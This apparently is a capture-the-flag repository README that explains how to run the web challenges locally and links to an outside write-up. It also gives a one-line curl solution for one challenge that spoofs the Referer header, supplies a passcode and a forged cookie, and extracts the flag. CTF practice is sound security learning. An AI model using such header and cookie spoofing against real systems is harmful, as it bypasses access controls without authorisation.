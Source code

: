 ## To Locally Play Web Challanges:
- Run `docker compose up -d` then access the challange.


# Writeup for 'Web' challanges:
- https://blog.rmb.info.np/nca-ctf-writeup (Credit: Rabindra Man Bajracharya)

Since **Ghantauke's Writeup** isn't available in above blog. Below is the one-liner solution for ghantauke challange:
```bash
curl -s 'http://147.79.67.234:5115/?passcode=opensesame' -H 'Referer: 127.0.0.1' -H 'DNT: 1' -H 'Cookie: MasterCookie=965eddc81173d4fe9c0ee6285fd56b996838fa67' | grep -o 'nca{[^}]*}'
```


